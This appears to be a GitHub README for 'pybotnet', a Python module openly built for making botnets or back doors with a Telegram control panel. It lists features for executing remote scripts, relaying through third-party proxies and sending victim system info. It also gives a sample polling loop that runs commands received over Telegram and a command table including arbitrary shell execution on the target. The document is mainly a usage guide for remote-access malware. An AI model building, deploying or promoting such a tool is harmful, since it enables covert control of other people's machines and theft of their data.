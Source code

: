 # pybotnet  0.08

A module for building botnet or back door with Python and Telegram control panel
- [x] windows
- [x] linux
- [ ] mac

### See the [TODO List](https://github.com/onionj/pybotnet/blob/master/TODOLIST.MD) if you want to *help* me <3

### Features:
* get command from telegram and execute scripts 
* get command and send message by third party proxy
* send target info 

for more features see command list ↓
 


### Requirements:

* Python 3.6 or higher.
* Telegram account
* your account number ID (get it from @userinfobot)
* telegram api token (Get it from the telegram botfather)
```
pip install -r requirements.txt
```

### Sample:

```python
import pybotnet
import time

TELEGRAM_TOKEN = '1468299500:AAHsvEH-5VyIfWYMzZcYxF_e00000000000'
ADMIN_CHAT_ID = '12345678910'
delay = 60

bot = pybotnet.PyBotNet(TELEGRAM_TOKEN, ADMIN_CHAT_ID, show_log=True, send_system_data=True)

while True:
    bot.get_and_execute_scripts_by_third_party_proxy()
    time.sleep(delay)

```

### Commmands:
Send this message to your api bot in telegram, using the admin account.

COMMAND | DO THIS | Minimum version required |
--------|---------|--------------------------|
do_sleep \<scconds> \<message (Optional)> |  \<if message != none : print(message) > ; time.sleep(seccond) | 0.08 |
get_info | return system info | 0.06 |
cmd \<system command> | run system command in shell or cmd (Be careful not to give endless command)| 007 |

